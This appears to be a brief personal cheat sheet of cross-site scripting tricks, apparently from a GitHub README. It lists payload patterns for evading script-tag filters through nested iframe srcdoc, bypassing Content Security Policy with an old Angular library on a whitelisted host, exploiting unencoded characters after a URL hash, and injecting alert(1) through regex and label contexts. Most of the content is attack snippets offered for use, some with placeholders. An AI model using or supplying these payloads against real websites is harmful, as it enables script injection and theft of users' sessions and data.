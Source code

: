 # XSS-tricks
XSS tricked I have used before.

## script tag and src attribute getting blocked
```html
<iframe srcdoc="<iframe srcdoc='{double_encoded_html_entities}'>">
```

## CSP Bypass
```html
<script src="OLD_ANGULAR_VERSION_ON_WHITELISTED_HOST"></script>
{Exploiting_Angular_XSS}
```

## No encode after hashtag, helpful in mobile applications
```
URL?" -> URL?%22
URL#" -> URL#"
```

## Trust Me, You will use it
```
/UNWANTED/-alert(1)
/UNWANTED/g-alert(1)
UNWANTED:alert(1)
UNWANTED(space|):/path/-alert(1)
```
